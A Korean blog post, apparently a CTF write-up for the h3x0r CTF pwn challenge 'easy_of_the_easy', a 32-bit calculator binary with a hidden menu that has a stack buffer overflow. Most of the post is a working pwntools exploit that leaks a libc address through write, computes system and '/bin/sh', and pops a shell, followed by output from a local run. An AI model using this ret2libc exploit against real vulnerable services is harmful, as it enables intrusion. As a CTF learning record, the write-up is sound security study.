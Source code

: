 ```yaml
---
layout: post
title: [h3x0r CTF] easy_of_the_easy (pwn 300)
excerpt_separator: <!--more-->
tags:
  - CTF
  - Write-up
---
```


학기중에는 바빠서 H3x0r CTF에 참가하지 못했다. 그래서 종강한 뒤 여유가 생겨서 문제를 몇 개 풀어보고자 했다. 그런데 너무 오랫동안 포너블 문제를 풀지 않아서인가 계속 버벅대기에, 생각도 정리하고 나중에 참고할 수 있도록 블로그에 포스팅을 올리기로 결심하였다.

<!--more-->

> nc 49.236.136.140 14000
> [Download](https://h3x0r.kr/uploads/8/easy_of_the_easy)
>
> -Ho_9

문제가 매우 심플하다. 바이너리만 하나 던져준다.

> \#file easy_of_the_easy
>
> easy_of_the_easy: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=943b5012ebc31246a545435ea3a4336795a9bb8d, not stripped

확인해보면 32bit 바이너리인걸 알 수 있다.

분석해보면 단순한 계산기 프로그램이고, 일정 조건을 만족하면 special menu를 열어주어 BOF 취약점을 트리거할 수 있게 되어있다. canary도 안 걸려있다. (걸려있어도 해결 가능할 것 같긴 하지만) 문제 자체가 포너블의 sanity check 개념인듯 하다. wrtie, read함수가 보이니까 대충 BOF로 주소 leak 해서 쉘 따면 된다.

```python
from pwn import *

PROCESS = "./easy_of_the_easy"

First_gate_addr = 0x08048801
special_menu_addr = 0x080487a0
write_plt = 0x08048452
read_got = 0x0804a00c

r = process(PROCESS)

def main () :
	global system_addr
	global binsh_addr

	make_nbytes()
	r.recvuntil("Good Luck!")
	bof()

	data = r.recvline().strip()
	system_addr = u32(data) - 0x9ad60
	binsh_addr = system_addr + 0x120c6b

	log.info(hex(system_addr))
	log.info(hex(binsh_addr))
	
	givemeshell()

	r.interactive()

def make_nbytes() :
	r.sendline("1 245686 1")
	r.recvuntil("Menu")
	r.sendline("2 2 1")
	r.recvuntil("Menu")
	r.sendline("3 1 1")
	r.recvuntil("Menu")
	r.sendline("4 1 1")
	r.recvuntil("Menu")
	r.sendline("1 1 0")
	r.recvuntil("Menu")
	r.sendline("2 2 1")
	r.recvuntil("Menu")
	r.sendline("3 1 1")
	r.recvuntil("Menu")
	r.sendline("4 1 1")
	r.recvuntil("Menu")
	r.sendline("6")
	r.recvuntil("Menu")
	r.sendline("4 1 1") # go to hidden menu

def bof() :
	payload = "A"*18
	payload += "B"*4
	payload += p32(write_plt)
	payload += p32(special_menu_addr)
	payload += p32(0x01)
	payload += p32(read_got)
	# payload += p32(0x08048b48) # good
	payload += p32(0x04)
	r.sendline(payload)

def givemeshell() :
	payload = "A"*18
	payload += "B"*4
	payload += p32(system_addr)
	payload += "C"*4
	payload += p32(binsh_addr)
	payload += "D"*20
	r.sendline(payload)

if __name__ == '__main__' :
	main ()
```

> root@ubuntu:~/CTF/h3x0r/easy_of_the_easy\# python local_exploit.py 
> [\+] Starting local process './easy_of_the_easy': pid 5203
> [\*] 0xf7d72da0
> [\*] 0xf7e93a0b
>
> [\*] Switching to interactive mode
>
> ​            Secret           Way          
>
> ==========================================
>
> Good Luck!$ ls
> easy_of_the_easy  local_exploit.py
> $ 



bof 해줄때 32bit 오랜만이라 그런가.. write 함수 다음에 +@ ret 적어주는걸 까먹어서 이상한 오류가 뿜뿜!! 했다. 다음부터는 주의해야지.
